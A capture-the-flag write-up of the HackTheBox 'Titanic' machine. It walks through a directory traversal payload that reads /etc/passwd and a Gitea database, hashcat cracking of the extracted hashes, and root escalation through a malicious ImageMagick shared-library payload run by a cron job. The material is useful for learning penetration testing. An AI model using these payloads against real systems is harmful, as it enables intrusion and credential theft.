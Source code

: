 ## **Introduction :**
*machine* : https://app.hackthebox.com/machines/Titanic.
*Difficulty:* Easy.
this writeup details the process to exploit Titanic machine on HackTheBox , By enumerating services on ports 80 and 20 , we discover **Directory Traversal** vulnerability , and Gitea on a subdomain , that enable us retrieve credential for developer user , after logging in via a SSH , we found a script that uses vulnerable version of `ImageMagick` (v7.1.1) that we can exploit to escalate privilege to root.

## **Enumeration :**
1. Nmap scan : 
```Bash
└─# nmap -sS -sC -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 12:37 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```
There are tow ports open  : 
- 22 (SSH)
- 80 (HTTP)

## **Initial foothold :**
#### Web on port 80 :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/1.png)

checking http://titanic.htb/ , we found a simple website. One interesting part from website is `/book`  which returns a JSON file after filling out a form , by Burp Suite we discover redirection to `/download?ticket=a_id.JSON` .
### Directory Traversal :
- By testing **Directory Traversal** by replacing `a_id.json` with `../../../etc/passwd` , it allows us to read the content of `/etc/passwd` from the server. 
- form  `/etc/passwd`, we found a user developer , and also by reading file `/etc/hosts` (or using any tool like `Gobuster` , `ffuf`) we found a subdomain `dev.titanic.htb`

```bash 
└─# gobuster dns -d titanic.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     titanic.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.titanic.htb

```
![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/2.png)
### Subdomain enumeration :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/3.png)

- checking `http://dev.titanic.htb/` , we found Gitea page .
- in Gitea , there are tow repositories `docker-config` and `flash-app` .
- Reading their content, we didn't find anything interesting in the `flask-app` repository , but `docker-config` reveals Gitea is running in Docker container and store the data in `/home/developer/gitea/data` .

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/4.png)
- now we can try to exploit this to read data files. 

### Extract Gitea database : 

- by reading documentations of Gitea and some research  , we know that data is stored in the SQLite file `gitea.db` and the file is stored in `/data/gitea` inside the container. 
- Gitea stores its SQLite database in `/data/gitea/gitea.db` , and contain mount  `/home/developer/gitea/data:/data` , That means anything in the container's `/data` path will be mirrored to your host's `/home/developer/gitea/data`.
- so the finally path that we use to read data by exploit Directory Traversal vulnerability is `/home/developer/gitea/data/gitea/gitea.db`
- by visiting http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db we can save the file locally 
- open `gitea.db` in SQLite 
```bash
└─# sqlite3 gitea.db          
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
...
.....
```

- we found a table user containing hashed password , salt , email and also algorithm that used for hashing
### Cracking the passwords :

- we can use `hashcat` tool to crack the password.
- first we need to convert them to base64 by using this [script](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/titanic_machine/hashcat_forma_PBKDF2.py)
- create a file named `hashes.txt` with hash and salt with the format `sha256:50000:salt:hash`
- the run `hashcat` to find plaintext password for developer : `hashcat.exe -m 10900 -a 0 hashes.txt rockyou.txt`
### developer shell : 

- now , we can login in via SSH.
```bash 
└─# ssh developer@10.10.11.55
```

- we can find user flag by reading file `/home/developer/user.txt`
## **Privilege escalation :** 
- `sudo -l` shows that the developer user does not have `sudo` privilege, also  there are no SUID binaries that we can exploit.
- in `/opt/scripts` ,we find a script `identify_images.sh ` which runs a vulnerable version of `ImageMagick`  
- `ImageMagick 7.1.1` is vulnerable to arbitrary code execution (you can find a exploitation in google)
- Also this script is owned by root and runs in Cronjob - I know this by looking at the creation date of metadata.log file.
#### exploitation :

- Create a shared library in the current working directory ( `/opt/app/static/assets/images` )

```bash 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
__attribute__((constructor)) void init(){  
system("cat /root/root.txt > /tmp/root.txt");  
exit(0);  
}  
EOF
```

- once `ImageMagick` process this malicious file , it executes a malicious code and copies `root.txt` to `/tmp/root.txt.`

>but first thing you can do is run the command `ls /root > /tmp/root.txt` to see what files are in this directory. Also we can include a reverse shell. 





